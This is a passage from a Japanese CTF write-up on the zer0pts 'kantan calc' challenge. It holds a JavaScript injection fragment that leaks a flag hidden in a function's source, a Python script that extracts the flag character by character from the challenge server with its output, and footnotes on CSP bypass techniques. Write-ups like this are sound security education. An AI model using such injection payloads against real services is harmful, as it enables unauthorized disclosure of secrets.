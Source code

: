 この後いろいろ考えてたら
```
},_=>_=>{
```
という短い断片（9文字！）でフラグ全体が出力される方法を思いつきました。
復元すると
```javascript
'use strict'; (function () { return },_=>_=>{;/* zer0pts{xxx} */ })()
```
になります。これを起点にこねくり回したらいい感じにできました。

```
});(a=>_=>(a+'')[16])(_=>{
```
最終的に攻撃に用いた断片はこれです（26文字）。
復元すると
```javascript
'use strict'; (function () { return });(a=>_=>(a+'')[16])(_=>{;/* zer0pts{xxx} */ })()
```
になります。
![](/images/2021/20210309-zer0ptsctf-kantancalc-02.png)
良さそうです。

### 攻撃

手動で一文字ずつ確定させるのは大変なのでスクリプトを書きました[^6]。
```python
import httpx
import urllib
import time

flag = ""

index = 0
while not flag.endswith("}"):
    time.sleep(0.01)
    payload = urllib.parse.quote("});(a=>_=>(a+'')[" + str(index) + "])(_=>{")
    res = httpx.get(
        f"http://web.ctf.zer0pts.com:8002/?code={payload}"
    )
    assert res.status_code == 200
    flag += res.text[res.text.find("</output>")-1]
    print(flag)
    index += 1
print("result: ", flag)
```

[^6]: 今までPythonでHTTPリクエストを投げるときには[requests](https://requests.readthedocs.io/en/master/)を使ってたのですが、最近は[httpx](https://www.python-httpx.org/)を使うように変更しました。APIはrequestsと似た感じで使いやすく、さらに標準で非同期通信にも対応していて便利です。あとこちらの方が後発で洗練されている印象を受けています（未確認です。気のせいかもしれません）。

実行すると次のように出力されます。
```sh
$ python exploit.py
_
_=
_=;
_=;{
_=;{;
_=;{;
_=;{; /
_=;{; /*
_=;{; /*
_=;{; /* z
_=;{; /* ze
_=;{; /* zer
_=;{; /* zer0
_=;{; /* zer0p
_=;{; /* zer0pt
_=;{; /* zer0pts
```

[^1]: Simple Blogを最初に解き始めた理由は部分文字列に「Blog」が含まれていたからです。というのも、最近CSP bypass系の問題にはまっているのですがそれ系統の問題には「Blog」とか「Note」とかが問題文に含まれることが多いからです。
[^2]: 知見として得られたもので以下のものは今後のCTFでの考察に使えそうです：「複数のCSPが設定されていた場合は、既存のCSPよりさらに制限するようなポリシーしか追加できない。これはmetaタグによる設定でも同様」「`'strict-dynamic'`が指定されていたとしてもparser-insertedなscriptの挿入は認められない」「metaタグで指定されたポリシーは、その記述より前のコンテンツには適用されない」（ref. https://www.w3.org/TR/CSP3/ ）。
[^3]: 現状のCSPでは（たぶん）metaタグによるリダイレクトをブロックできないので、便利テクニックとして使ってます。[navigate-toディレクティブ](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to)が導入されたらこの手は使えなくなるのだろうか。
[^4]: Chromeでは`\n`と`<`の両方を含むURLへのアクセスがブロックされます（ref. https://www.chromestatus.com/feature/5735596811091968 ）。日本語の資料では[こことか](https://speakerdeck.com/shhnjk/burauzasekiyuriteiji-neng-ha-baipasusareruwei-niaru?slide=24)で言及されています[^5]。ただし今回の攻撃手法がChromeでうまく動作しないのは、これが原因ではなくTrusted Typesがサポートされていることが原因です。
[^5]: ところで[Shibuya.XSS](https://shibuyaxss.connpass.com/)の過去資料を漁ってるとおもしろい情報がたくさん得られるので、次回開催が楽しみです。前回開催時はCTFをやってなくて申し込まなかったのが悔やまれます。
[^7]: https://simple.wikipedia.org/wiki/Leet